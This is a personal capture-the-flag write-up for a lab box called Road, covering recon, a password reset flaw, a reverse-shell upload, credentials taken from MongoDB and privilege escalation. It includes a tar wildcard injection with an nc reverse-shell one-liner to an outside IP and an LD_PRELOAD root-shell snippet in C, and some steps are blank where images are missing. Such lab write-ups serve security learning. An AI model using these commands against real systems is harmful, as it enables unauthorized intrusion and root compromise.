

# Road Helped-Through

Name: Road
Date:  16/4/2023
Difficulty:  Medium
Goals:  
- Follow along with Al while I do the more automatable time hungry Offsec execises 
- Warm up
Learnt:
- Try Harder
- Scrutinise integrity of password reset source code
Beyond Root:
- H4ddixB4dg3r Programming for a hour!

<iframe width="560" height="315" src="https://www.youtube.com/embed/yYw3ysOdNt8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

[Alh4zr3d - VOD](https://www.youtube.com/watch?v=yYw3ysOdNt8) I followed allow and paused serval times to distance myself from these Helped-Throughs as I inch closer to going for more OSCP stuff.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Nuclei finds [[phpmyadmin-panel-http___10.10.75.48_phpMyAdmin_]]

- Registered a user: `admin@admin.com : admin`
- Found the `admin@sky.thm`

I found:


Al points out No CSRF token


Testing 

Results in:


Password resets are not normally implemented without requiring previous password.


Oh oh


Now we are Admin


Now we can upload a picture for user profile

Alh4zr3d points out XXS

It is not displaying everything as it is Reflected-based XSS

- It not stored as it is not persistent
- It is reflected back, but non persistent 

- Is user input is reflected back onto the page? 
- Is http-only flag set to prevent user cookie compromise ?

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
 - DOM XSS 
	 - Where the entire tainted data flow from source to sink takes place in the browser
	 - Is subset of Client XSS
- Reflected XSS
	- Non-Persistent
- Stored XSS
	- Persistent


## Exploit and www-data Foothold

Simply just uploaded pentest monkey reverse shell. I was hoping I could crack open some methodological rigor for myself.


Go mongodb

Al points out this:


`ThisIsSecurePassword!`

I paused here to practice some SQL


`webdeveloper : BahamasChapp123!@#`

```sql
mongo "mongodb://localhost:27017"
show dbs;
use backup;
show tables;
db.user.find();
```


## PrivEsc

Now as the webdeveloper user:

Initial sudo privilege:


I ran this is binary and paused the video as I think this is similar to [[Reddish-Helped-Through]] - it is backing up the webserver with a wildcard:

[Hack Tricks - wildcards spare trikcs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

It uses `tar`


So we can just get root from something like
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.43.145 6969 >/tmp/f" > shell.sh
```


Al points out how sudo is `env_keep+=LD_PRELOAD`, we have `gcc`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```


- Try Harder.

## Beyond Root

H4ddixB4dg3r Programming for a hour!